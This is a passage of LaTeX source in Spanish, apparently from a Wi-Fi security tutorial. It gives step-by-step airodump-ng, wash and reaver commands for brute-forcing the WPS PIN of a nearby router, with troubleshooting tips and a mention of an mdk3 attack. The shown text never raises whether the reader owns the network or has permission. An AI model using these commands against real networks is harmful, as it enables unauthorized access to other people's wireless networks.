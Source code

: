 Ahora abra dos pestañas de terminal, en cada una de las cuales ejecutará un comando. El primero será para ver
las redes wifi de las que recibe señal y la potencia de las mismas en \si{\deci\bel m}:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@airodump-ng -i !\val{nic\_att\_mon}!@@
\end{lstlisting}

En la otra, deberá mostrar (es preferible en otro terminal) las redes de las que recibe señal y si tienen
bloqueado el WPS:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@wash -i !\val{nic\_att\_mon}! -C@@
\end{lstlisting}

Seleccione una de la que usted reciba una señal lo bastante potente (\si{\deci\bel m}) y apunte su ESSID, su
canal y su BSSID (la dirección MAC del router); fíjese también en que bajo la columna \lstinline!WPS locked!
pone \lstinline!no!.

Ahora introduzca el siguiente comando para que su sistema comience a probar PINs:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@reaver -i !\val{nic\_att\_mon}! -vv -S -b !\val{bssid\_ap}! -c !\val{canal\_ap}!@@
\end{lstlisting}

Hay veces que funciona mejor añadiéndole la opción \lstinline!-w!:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@reaver -i !\val{nic\_att\_mon}! -vv -S -b !\val{bssid\_ap}! -c !\val{canal\_ap}! -w@@
\end{lstlisting}

Puede tardar mucho tiempo. Debe tener en cuenta que no le aparecen errores como, por ejemplo, los que tienen
código 0x02 o 0x03, que hacen que se repita el intento de PIN porque la señal no le llega a usted con la
suficiente potencia. Advierta que si reintenta siempre el mismo PIN le trae más a cuenta probar con otro punto
de acceso.

Otra cosa que puede hacer cuando no le funciona bien el ataque es un ataque mdk3 hasta que el router cambie de
canal o se reinicie:

